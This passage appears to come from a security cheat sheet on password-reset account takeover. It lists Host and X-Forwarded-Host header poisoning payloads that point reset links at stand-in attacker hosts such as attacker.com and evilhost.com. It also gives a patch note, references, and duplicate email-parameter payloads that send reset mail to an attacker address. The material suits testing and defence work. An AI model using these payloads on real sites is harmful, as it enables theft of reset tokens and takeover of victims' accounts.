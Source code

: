 *You can use ngrok server as your attacker server*

 ```bash
 Host: attacker.com
 ```
 or
 ```bash
 Host: target.com
 X-Forwarded-Host: attacker.com
 ```
 or
 ```bash
 Host: target.com
 Host: attacker.com
 ```
* Forward the request
```bash
POST https://example.com/reset.php HTTP/1.1
Accept: */*
Content-Type: application/json
Host: evilhost.com
```
* If you find a password reset token like this
```
https://evilhost.com/reset-password.php?token=12345678-1234-1234-1234-12345678901
```
![](https://www.acunetix.com/wp-content/uploads/2018/11/image1-910x443.png)

### Patch

Use `$_SERVER['SERVER_NAME']` rather than `$_SERVER['HTTP_HOST']`

password link is genrated like this:
```bash
$resetPasswordURL = "https://{$_SERVER['HTTP_HOST']}/reset-password.php?token=12345678-1234-1234-1234-12345678901";
```

### Impact
The victim will receive the malicious link in their email, and, when clicked, will leak the user's password reset link / token to the attacker, leading to full account takeover.

### Reference:
* https://hackerone.com/reports/226659
* https://hackerone.com/reports/167631
* https://www.acunetix.com/blog/articles/password-reset-poisoning/
* https://pethuraj.com/blog/how-i-earned-800-for-host-header-injection-vulnerability/
* https://medium.com/@swapmaurya20/password-reset-poisoning-leading-to-account-takeover-f178f5f1de87

## [3] Account Takeover: Password Reset With Manipualating Email Parameter
### Exploitation
1. Add attacker email as second parameter using &
```bash
POST /resetPassword
[...]
email=victim@email.com&email=attacker@email.com
```
2. Add attacker email as second parameter using %20
```bash
POST /resetPassword
[...]
email=victim@email.com%20email=attacker@email.com
```